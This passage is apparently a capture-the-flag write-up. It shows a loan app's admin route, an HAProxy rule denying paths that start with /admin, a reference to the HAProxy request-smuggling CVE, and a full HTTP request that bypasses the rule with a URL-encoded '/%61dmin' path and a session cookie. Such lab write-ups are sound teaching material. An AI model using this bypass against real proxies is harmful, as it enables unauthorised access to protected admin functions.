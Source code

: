 After checking the source, we find this interesting part.

```python
@app.route('/admin/loan/<loan_id>', methods=['POST'])
def admin_approve_loan(loan_id):
    try:
        mongo.db.loan.update_one({'_id': ObjectId(loan_id)}, {'$set': {'status': 'approved', 'message': FLAG}})
        return 'OK', 200
    except:
        return 'Internal Server Error', 500
```

Where the server connects to the endpoint `/admin/loan/<loan_id>` , but of course we hit a 403. Can’t be that easy HAHA. Also another thing I noticed is they used `HAProxy` for this web application, which I thought was an upgrade to our set-up, so that was in the back of my mind. 

<aside>
💡

HAProxy (High Availability Proxy) is a powerful open-source software that serves as a load balancer and proxy server for TCP and HTTP-based applications

</aside>

Checking out the `haproxy.cfg`.

```
acl is_admin path_beg /admin
http-request deny if is_admin
```

- **acl is_admin path_beg /admin**: Creates an access control list (ACL) named `is_admin` that matches requests where the path begins with `/admin`.
- **http-request deny if is_admin**: Denies requests that match the `is_admin` ACL, effectively blocking access to any URLs starting with `/admin`.

As expected, it blocks all the URL requests starting with `/admin`. Another interesting file to check out is the `docker-compose.yml`, that’s where we can also see the layout and executions including versions of the software in the web application.

```docker
loanapp-haproxy:
    image: haproxy:2.3.5
```

Now, we see it’s an older version of HAProxy, and there is a known vulnerability for it.

[Critical Vulnerability in HAProxy (CVE-2021-40346): Integer Overflow Enables HTTP Smuggling](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/)

So actually, this was the intended method to solve it, integer overflowing the server to bypass HAProxy restrictions, but were a lot of unintended here, like `/%61dmin` or `//admin` and so on.

Payload:

```
POST /%61dmin/loan/670a5a603b619fc5054d4293 HTTP/1.1
Host: loanapp.1nf1n1ty.team
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsic3VjY2VzcyIsIkxvZ2luIHN1Y2Nlc3NmdWwhIl19XSwidXNlcl9pZCI6IjY3MGE0YmU3M2I2MTlmYzUwNTRkNDI5MCJ9.ZwpOsQ.RDQIVJvEOtneQIWqsNsv3zwtpvY
Connection: keep-alive
```